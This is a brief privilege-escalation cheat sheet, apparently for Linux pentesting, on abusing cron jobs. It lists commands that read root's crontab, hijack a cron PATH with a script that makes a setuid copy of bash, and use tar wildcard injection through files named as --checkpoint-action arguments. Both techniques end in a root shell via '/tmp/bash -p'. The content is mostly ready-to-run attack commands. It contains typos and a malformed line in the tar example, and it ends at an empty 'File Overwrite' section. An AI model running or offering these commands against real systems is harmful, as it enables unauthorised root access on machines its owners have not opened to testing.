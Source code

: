 ```
cat /etc/crontab
```

```
ls /etc/cron.d
```

```
cat /var/spool/cron/crontabs/root
```

### Path

_This abuses misconfigured path in "/etc/crontab". If a user has write permissions in the directory that is in the path. create a file with the same name as the cronjob with malicious contents._

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /writeable/directory/somefile
```

```
chmod +x /wrietable/directory/somefile
```

```
/tmp/bash -p
```

### Wildcards

```
cat /etc/crontab
```

### **Tar**

_Exploitable if cronjob script that is using tar and has a wildcard \* Example: tar czf /tmp/backup.tar.gz_

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
/home/user/--checkpoint=1
```

```
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

_Wait for execution_

```
/tmp/bash -p
```

### File Overwrite

```
cat /etc/crontab
```
